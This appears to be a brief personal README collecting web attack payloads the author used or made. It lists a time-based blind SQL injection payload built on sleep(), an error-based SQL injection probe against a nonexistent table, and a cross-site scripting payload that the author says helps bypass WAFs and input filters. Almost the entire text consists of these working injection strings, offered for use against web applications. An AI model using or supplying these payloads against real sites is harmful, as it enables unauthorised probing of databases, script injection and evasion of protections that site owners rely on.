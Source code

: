 ## Just a useless set of payload used or created by me. Saved here for remembrance.

### SQL Injection
#### Time Based Blind:
 - `(select(if(user()like(user()),sleep(4),sleep(2))))`
 - `x'.and.(select.count(*).from.shouldNotExistTable)=1.or.'1'='0.` (this is for error based sqli and should return error like : "Table 'x.shouldNotExistTable' doesn't exist")

### Cross Site Scripting
 - `[document.domain].find(confirm)` (helped me to bypass WAFs/filters or useful if input is echoed or used as variable in js files)
